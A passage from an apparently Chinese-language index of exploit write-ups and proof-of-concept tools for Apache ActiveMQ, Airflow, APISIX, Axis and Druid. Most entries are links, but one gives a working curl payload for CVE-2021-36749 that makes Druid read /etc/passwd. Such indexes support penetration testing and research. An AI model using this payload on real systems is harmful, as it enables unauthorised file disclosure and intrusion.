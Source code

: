 ActiveMQ任意文件写入漏洞 (CVE-2016-3088) (https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2016-3088/README.zh-cn.md)  
  
ActiveMQ RCE (https://github.com/trganda/ActiveMQ-RCE)  
  
CVE-2023-46604 之 ActiveMQ RCE 漏洞验证/利用工具 ([https://mp.weixin.qq.com/s?__biz=Mzk0NjQ5MTM1MA==&mid=2247485403&idx=2&sn=0cdcd266b4761c8ee0ff57bb0b399b08](https://mp.weixin.qq.com/s?__biz=Mzk0NjQ5MTM1MA==&mid=2247485403&idx=2&sn=0cdcd266b4761c8ee0ff57bb0b399b08&scene=21#wechat_redirect)  
)  
### Apache Airflow  
  
Mr-xn/CVE-2022-40127 (https://github.com/Mr-xn/CVE-2022-40127)  
### Apache APISIX  
  
CVE-2022-24112 Apache APISIX apisix/batch-requests RCE (https://github.com/Mr-xn/CVE-2022-24112/blob/main/CVE-2022-24112.yaml)  
  
Apisix dashboard未授权访问到rce，含发现poc思路&复现环境 ([https://mp.weixin.qq.com/s/knTotxOeFlzcxvoQYSljCQ](https://mp.weixin.qq.com/s?__biz=MzkwNDI1NDUwMQ==&mid=2247485478&idx=1&sn=1e98f09606f8182e2e087d0f1dbf8b8b&scene=21#wechat_redirect)  
)  
### Apache Axis  
  
Apache Axis1 与 Axis2 WebService 的漏洞利用总结 (https://paper.seebug.org/1489/#2-apache-axis2)  
  
axis 1.4 AdminService未授权访问 jndi注入利用 (https://jianfensec.com/渗透测试/axis 1.4 AdminService未授权访问 jndi注入命令执行利用/)  
  
KibodWapon/Axis-1.4-RCE-Poc (https://github.com/KibodWapon/Axis-1.4-RCE-Poc)  
  
【漏洞复现】Axis2默认弱口令后台Getshell ([https://mp.weixin.qq.com/s/Gp_FMM-n472wYTBA5lC3lw](https://mp.weixin.qq.com/s?__biz=Mzg2NTA4OTI5NA==&mid=2247490371&idx=1&sn=db6e5a46590a7f733143b586f2d05d43&scene=21#wechat_redirect)  
)  
### Apache Druid  
  
Apache Druid 漏洞总结 ([https://mp.weixin.qq.com/s/ZT5j9clfENsEWMSKuKkw1g](https://mp.weixin.qq.com/s?__biz=Mzk0MjI4NjIxMQ==&mid=2247483769&idx=1&sn=ebdd9e23afaa74ce3662d5dbaedfa303&scene=21#wechat_redirect)  
)  
  
Druid未授权（弱口令）的一些利用方式 (https://www.cnblogs.com/cwkiller/p/12483223.html)  
  
Druid未授权漏洞实战利用 (https://www.t00ls.net/articles-62541.html)  
  
yuyan-sec/druid_sessions (https://github.com/yuyan-sec/druid_sessions)  
  
Apache Druid 远程代码执行漏洞 CVE-2021-25646 (http://wiki.peiqi.tech/PeiQi_Wiki/Web服务器漏洞/Apache/Apache Druid/Apache Druid 远程代码执行漏洞 CVE-2021-25646.html)  
  
漏洞复现: Apache Druid 远程代码执行漏洞 (CVE-2021-25646) (https://paper.seebug.org/1476/)  
  
Apache Druid CVE-2021-26919 漏洞分析 (http://m0d9.me/2021/04/21/Apache-Druid-CVE-2021-26919-漏洞分析/)  
  
CVE-2021-36749  
```
curl http://127.0.0.1:8888/druid/indexer/v1/sampler?for=connect -H "Content-Type:application/json" -X POST -d "{\"type\":\"index\",\"spec\":{\"type\":\"index\",\"ioConfig\":{\"type\":\"index\",\"firehose\":{\"type\":\"http\",\"uris\": \" file:///etc/passwd \" }},\"dataSchema\":{\"dataSource\":\"sample\",\"parser\":{\"type\":\"string\", \"parseSpec\":{\"format\":\"regex\",\"pattern\":\"(.*)\",\"columns\": \"a\" ,\"dimensionsSpec\":{},\"timestampSpec\":{\"column\":\"no_ such_ column\",\"missingValue\":\"2010-01-01T00:00:00Z\"}}}}},\"samplerConfig\":{\"numRows\":500,\"timeoutMs\":15000}}"
```  
### Apache Dubbo  
  